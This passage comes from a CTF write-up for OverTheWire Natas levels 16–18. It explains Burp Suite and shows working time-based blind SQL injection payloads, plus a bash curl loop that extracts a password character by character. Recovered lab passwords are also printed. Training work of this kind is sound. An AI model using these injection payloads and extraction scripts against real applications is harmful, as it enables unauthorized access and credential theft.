 This time, we start with `b` and then try to append each char after it. If the sequence `b<char>` is not a part of the password we will get the dictionary content, otherwise it is part of the password and we can add it and try another char. So at the end, we will have `b<rest of the password>`, which is the right part of the password where `b` is the separator.

We get the output `bo7LFNb8vwhHb9s75hokh5TF0OC`. Now to find the left part, we will do the same but trying to add each char to the left of this output. I will not bring that code as it is very similar, but at the end we get the full password.

Password: `EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC`

## Level 17 → 18
This level is exactly the same as [level 15](https://github.com/iAdani/Cyber-Learning/tree/main/OverTheWire/Natas#level-15--16), but this time the responses from the server are in a comment, so we do not get any feedback at all. We need to use a more complicated type of `blind SQL injection`, where our only response from the server is timing (how long it takes to get a resonse). We first want to find the target username. 

### Burp Suite
`Burp Suite` (or just `Burp`) is a powerful web vulnerability testing tool used by security professionals and ethical hackers to find and exploit weaknesses in web applications. It acts as an intercepting proxy between your browser and the target application, allowing you to inspect, modify, and replay `HTTP/S` requests and responses. `Burp Suite` includes various tools such as `Repeater` for manual testing, `Intruder` for automated attacks like brute-force or fuzzing, and `Scanner` (in the Pro version) for automated vulnerability detection. It's especially popular for tasks like testing login forms, detecting SQL injection, XSS, and other web-based exploits.

Assuming the target user is `natas18`, I intercepted a request and used the `Repeater` on `Burp` with the following input in a `POST` request body.
```sql
username=natas18" AND SLEEP(5) #
```
`Burp` automatically used `URL encoding` on that input. What happens here is only if `natas18` exists, then the query will try the right part of the `AND` and will execute `SLEEP(5)`. And indeed, by using this input the response from the server takes more than 5 seconds, while on other usernames it takes less than 1.

Now we know the username and that `time-based blind SQL injection` can be done in this case. To reveal the password, we will use the same technique as in [level 15](https://github.com/iAdani/Cyber-Learning/tree/main/OverTheWire/Natas#level-15--16), but with response time and not response content.

```bash
#!/bin/bash
url="http://natas17.natas.labs.overthewire.org"
credentials="natas17:EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC"
prefix=""
chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

while [ ${#prefix} -lt 32 ]; do
	for char in $(echo $chars | fold -w1); do
		pref="${prefix}${char}";
		start=$(date +%s)

		response=$(curl -X POST -s -u $credentials -d "username=natas18\"+AND+IF(password+LIKE+BINARY+'$pref%', SLEEP(4),0) OR username=\" #" $url);
		
		if [ $(($(date +%s) - $start)) -ge 4 ]; then
			prefix=$pref
			echo "Current: $prefix"
		fi
	done
done
echo $prefix
```
We inject this value:
```sql
```